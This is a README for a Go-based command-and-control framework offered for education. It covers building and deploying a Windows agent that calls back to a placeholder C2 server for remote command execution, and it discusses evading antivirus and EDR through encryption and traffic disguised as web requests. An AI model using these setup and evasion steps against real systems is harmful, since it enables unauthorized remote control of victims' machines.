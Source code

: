 # Whisper C2 Framework

![Status](https://img.shields.io/badge/status-proof%20of%20concept-brightgreen) [![Go Version](https://img.shields.io/badge/go-1.18+-00ADD8.svg)](https://go.dev/) [![License](https://img.shields.io/badge/license-MIT-blue.svg)](LICENSE)

Whisper is a lightweight, TCP-based Command and Control (C2) framework built entirely in Go. It was developed for educational purposes to explore the fundamentals of C2 architecture and the challenges of evading modern security solutions.

This project serves as a practical tool for researchers, students, and cybersecurity professionals to understand offensive tooling in a controlled, ethical environment.

---

## ⚠️ Disclaimer

This project is intended **solely for educational and research purposes**. The goal is to study adversarial techniques to build better defensive strategies. The author is not responsible for any misuse or damage. **Use this tool ethically and only on systems you have explicit permission to test.**

---

## 🧠 Core Concepts: Bypassing Static vs. Dynamic Analysis

A key goal of this project is to understand how security products detect threats. The current version of Whisper can remain undetected by some basic antivirus (AV) solutions for two main reasons:

1.  **Unique Signature:** As a custom-coded tool, its file hash is not in any AV vendor's database of known malware. It bypasses **static analysis** because it has no recognized malicious signature.

2.  **Simple Behavior:** The agent's current actions (making a TCP connection, running a command) are not inherently malicious enough to trigger alarms in AV products that are not performing aggressive **behavioral analysis**.

The real challenge, and the future goal of this project, is to evade **Endpoint Detection and Response (EDR)** systems. An EDR actively monitors system behavior and would likely flag Whisper for:

* An unknown, unsigned program making a persistent network connection.
* An unusual parent-child process relationship (e.g., `agent.exe` spawning `whoami.exe`).

The roadmap below outlines the features needed to bypass this more advanced, behavior-based detection.

---

## ✨ Current Features

* **TCP-Based C2 Channel**: Simple and direct network communication between the agent and server.
* **Remote Command Execution**: Execute shell commands on a target machine via the agent.
* **Asynchronous Command Handling**: Built with Go's goroutines to manage multiple agents without blocking.
* **Cross-Platform Portability**: Easily cross-compile the agent for Windows, Linux, and macOS.

---

## 🗺️ The Road to True Stealth: Project Roadmap

The following features are planned to evolve Whisper from a simple C2 into a framework capable of evading more sophisticated, behavior-based security solutions.

* [X] **Encrypted C2 Channels (TLS):** Encrypt all traffic between the agent and server to prevent network inspection and hide commands.
* [X] **Malleable C2 Profiles:** Disguise C2 traffic to look like legitimate web traffic (e.g., HTTP/S POST requests) to blend in with normal network activity.
* [ ] **Sleep Obfuscation & Jitter:** Introduce randomized delays (jitter) to the agent's check-ins to make its beaconing pattern less predictable and harder to detect.

---


## 🛠️ Getting Started

### Prerequisites

* [Go](https://go.dev/doc/install) (Version 1.18 or higher)
* A basic understanding of networking and command-line interfaces.

### Installation and Setup

First, clone the repository to your local machine:


    git clone https://github.com/rahdian-abdi/whisper.git
    cd whisper


### **Option 1: Raw TCP Mode** 🔌

This is the simplest mode, using a direct, unencrypted TCP connection.

#### **Server Setup (Raw TCP)**

1.  **Navigate to the Server Directory:**
    ```bash
    cd server/rawtcp
    ```

2.  **Run the Server:**
    The server will start listening for incoming connections.
    ```bash
    go run main.go
    ```
    *(Note: For production use, build the binary first with `go build .`)*

#### **Agent Setup (Raw TCP)**

1.  **Navigate and Configure:**
    In a new terminal, go to the agent's directory.
    ```bash
    cd agent/rawtcp
    ```
    Open `main.go` and set the `c2Host` and `c2Port` variables to your server's IP and port.
    ```go
    // agent/rawtcp/main.go
    var (
        c2Host = "YOUR_C2_IP_HERE"
        c2Port = "8080"
    )
    ```

2.  **Build the Agent:**
    Compile the agent executable. This command creates a Windows binary and strips debug symbols to reduce its size.
    ```bash
    GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o agent_rawtcp.exe .
    ```

---

### **Option 2: HTTPS Mode (Malleable C2)** 🌐

This mode uses HTTPS for encrypted communication, making it stealthier.

#### **Server Setup (HTTPS)**

1.  **Navigate to the Server Directory:**
    ```bash
    cd server/https
    ```

2.  **Generate TLS Certificates:**
    The server requires a TLS certificate and key. The provided `openssl.conf` simplifies this process.
    ```bash
    # Create the directory to store certificates
    mkdir certs

    # Generate the certificate and key
    openssl req -new -x509 -config openssl.conf -keyout certs/c2.key -out certs/c2.crt -days 365 -nodes
    ```
    *Note: You can edit `openssl.conf` to change certificate details like the IP or domain name.*

    You can find the minimal setup of the `openssl.conf` below
    ```
    [req]
    distinguished_name = req_distinguished_name
    x509_extensions = v3_req
    prompt = no

    [req_distinguished_name]
    CN = YOUR_C2_SERVER_IP_HERE

    [v3_req]
    keyUsage = keyEncipherment, dataEncipherment
    extendedKeyUsage = serverAuth
    subjectAltName = @alt_names

    [alt_names]
    IP.1 = YOUR_C2_SERVER_IP_HERE
    ```

3.  **Run the Server:**
    ```bash
    go run main.go
    ```

#### **Agent Setup (HTTPS)**

1.  **Navigate and Configure:**
    In a new terminal, go to the agent's directory.
    ```bash
    cd agent/https
    ```
    Open `main.go` and set the `c2URL` variable to your server's full URL.
    ```go
    // agent/https/main.go
    c2URL := "https://YOUR_C2_IP_OR_DOMAIN"
    ```

2.  **Build the Agent:**
    Compile the agent executable for a Windows target.
    ```bash
    GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o agent_https.exe .
    ```

---

## 🖥️ Usage

1.  **Start Your Chosen Server:** Follow the setup steps to run either the `rawtcp` or `https` server.
2.  **Deploy the Agent:** Transfer the corresponding compiled agent (`agent_rawtcp.exe` or `agent_https.exe`) to a target machine you are authorized to test on and execute it.
3.  **Interact with the Agent:** When the agent connects, the server terminal will notify you and prompt for a command.
    ```
    [*] Whisper HTTPS C2 listening on https://0.0.0.0:443
    [whisper]> whoami
    [*] Sent to Agent: whoami

    [Agent Output] desktop-cej30mv\john
    ```

---

## 🤝 Contributing

Contributions, issues, and feature requests are welcome! Feel free to check the issues page for this repository to contribute.

---

## 📜 License

Distributed under the MIT License. See `LICENSE` for more information.
